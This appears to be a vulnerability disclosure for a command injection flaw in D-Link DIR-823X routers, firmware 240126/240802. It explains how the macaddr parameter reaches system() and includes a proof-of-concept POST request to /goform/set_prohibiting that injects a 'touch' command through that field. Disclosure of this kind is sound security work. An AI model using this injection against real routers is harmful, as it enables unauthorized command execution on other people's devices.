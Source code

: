 # Information

**Vendor of the products:** 

**Vendor's website:** http://www.dlink.com.cn/

**Reported by:** Wang Jinshuai(jinshuaiwang61@gmail.com) ,  Zhao Jiangting([sta8r9@163.com](mailto:sta8r9@163.com))

**Affected products:** DIR-823X AX3000 Series Routers

**Affected firmware version:** 240126, 240802

**Firmware download address:** http://www.dlink.com.cn/home/product?id=3118

# Overview

A command injection vulnerability in D-Link DIR-823X Series Routers with firmware versions 240126/240802 allows an authorized attacker to execute arbitrary commands on remote devices by sending a POST request to `/goform/set_prohibiting` via the corresponding function, triggering remote command execution.

# Vulnerability details

By reverse engineering the `sub_42232C` function in this binary file, we can see that the value of the `macaddr` function is copied into the `command` variable via the `snprintf` function, after which the `system` function is executed. Therefore, by maliciously crafting the value of `macaddr`, command execution can be triggered.

![image-20250306225207155](https://mono7s.oss-cn-wuhan-lr.aliyuncs.com/image/202503062327700.png)

This function can be triggered by submitting a POST request to `/goform/set_prohibiting`.

# Poc

```python
POST /goform/set_prohibiting HTTP/1.1
Host: 192.168.122.130
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/114.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 75
Origin: http://192.168.122.130
Connection: close
Referer: http://192.168.122.130/login.html
Cookie: sessionid=00000000000000000000000000000000; token=00000000000000000000000000000000

macaddr=||touch%20/set_prohibiting||&token=00000000000000000000000000000000
```

# Attack Demonstration

![image-20250306094707761](https://mono7s.oss-cn-wuhan-lr.aliyuncs.com/image/202503062327258.png)